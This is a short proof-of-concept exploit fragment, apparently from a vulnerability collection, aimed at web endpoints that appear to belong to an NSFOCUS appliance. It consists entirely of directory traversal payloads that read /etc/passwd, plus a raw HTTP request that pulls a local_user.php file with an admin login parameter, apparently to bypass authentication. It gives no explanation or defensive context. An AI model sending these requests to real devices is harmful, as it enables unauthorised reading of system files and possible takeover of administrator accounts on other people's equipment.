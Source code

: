 ### **POC**

`/webconf/GetFile/index?path=../../../../../../../../../../../../../../etc/passwd`

```
/api/virtual/home/status?cat=../../../../../../../../etc/passwd
```

```
GET /api/virtual/home/status?cat=../../../../../../../../../../../../../../usr/local/nsfocus/web/apache2/www/local_user.php&method=login&user_account=admin HTTP/1.1
Host: 1.1.1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Connection: close
```

